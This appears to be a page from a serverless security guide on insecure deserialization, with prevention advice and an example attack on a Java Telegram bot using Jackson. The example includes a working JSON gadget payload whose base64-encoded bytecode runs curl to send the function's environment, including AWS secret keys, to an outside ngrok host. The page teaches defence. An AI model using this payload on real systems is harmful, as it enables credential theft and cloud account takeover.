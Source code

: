 # A8:2017 Insecure Deserialization

## Attack Vectors

Dynamic languages like Python and NodeJS, together with the common use of JSON, a serialized data type, could make deserialization attacks a little more common in the serverless world.

## Security Weakness

Together with the possible attack vector, the fact that most functions use 3rd-party libraries to handle the (de)serialization of the data could introduce such weakness to our serverless application. Deserialization vulnerabilities are pretty common in Python (e.g. [pickle](http://xhyumiracle.com/python-pickle-injection)) and JavaScript ([node-serialize](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)). But could also be found in [.NET and Java](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf).

## Impact

As usual, the business impact depends on the application and the data it handles. Insecure deserialization usually results in running arbitrary code that could eventually lead to data leakage and, in severe cases, even resource and account control.

## How to Prevent

- Validate serialized objects, originating from any untrusted data (e.g. cloud storage, databases, emails, notifications, APIs) by enforcing strict type constraints before processing it.
- Review 3rd-party libraries for known deserialization vulnerabilities.
- It is also a good practice to monitor deserialization usage and exceptions to identify possible attacks.

## Example Attack Scenario

An application is using a Telegram chat Bot agent to provide information about movies. To do so, a function is triggered when text messages are received (via API GW), taking the input and returning data related to the requested movie using the Open Movie Database (OMDb) API. However, the JsonMapper class is using JSON deserialization, by calling jackson.databind.ObjectMapper.readValue() which is known to be vulnerable.

![Insecure Deserialization 1](images/0xa8-insecure-deserialization-1.png)

This allows any unauthenticated telegram user to send malicious content via text and without performing input validation. To exploit it, the attacker needs to send a Java serialized object in the telegram text which will be translated into a JSON as part of the Bot API request.

![Insecure Deserialization 2](images/0xa8-insecure-deserialization-2.png)

By using the following payload, attackers can steal AWS environment data such as `AWS_SESSION_TOKEN`, `AWS_SECRET_ACCESS_KEY`, `AWS_SECURITY_TOKEN`, which could be used to create an AWS [AssumeRole](https://docs.aws.amazon.com/cli/latest/reference/sts/assume-role.html) and access AWS resources.

```
{ 'id': 124,
  'obj':[ 'com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl',
    {
    'transletBytecodes' :
  ['yv66vgAAADQAHgoABgARCgASABMIABQKABIAFQcAFgcAFwEABjxpbml0PgEAAygpVgEABENvZG
  UBAA9MaW5lTnVtYmVyVGFibGUBAARtYWluAQAWKFtMamF2YS9sYW5nL1N0cmluZzspVgEACkV
  4Y2VwdGlvbnMHABgBAApTb3VyY2VGaWxlAQAMcGF5bG9hZC5qYXZhDAAHAAgHABkMABoAGw
  EAR2Vudj1gZW52fGJhc2U2NCAtLXdyYXA9MGA7IGN1cmwgaHR0cDovL3Byb3RlZ29sYWJzLm5nc
  m9rLmlvP2RhdGE9JHtlbnZ9DAAcAB0BAAdwYXlsb2FkAQAQamF2YS9sYW5nL09iamVjdAEAE2phd
  mEvbGFuZy9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxq
  YXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5n
  L1Byb2Nlc3M7ACEABQAGAAAAAAACAAEABwAIAAEACQAAAB0AAQABAAAABSq3AAGxAAAAAQA
  KAAAABgABAAAAAQAJAAsADAACAAkAAAAmAAIAAgAAAAq4AAISA7YABEyxAAAAAQAKAAAACgA
  CAAAABAAJAAUADQAAAAQAAQAOAAEADwAAAAIAEA=='],
      'transletName' : 'a.b',
      'outputProperties' : { }
    }
  ]
}
```

When the code runs, it will launch a new process which will send the environment credentials to the attacker. This could eventually lead to invoking the function manually, providing it with any type of input which can end in a complete takeover of cloud resources, depending on the permissions of the function.

![Insecure Deserialization 3](images/0xa8-insecure-deserialization-3.png)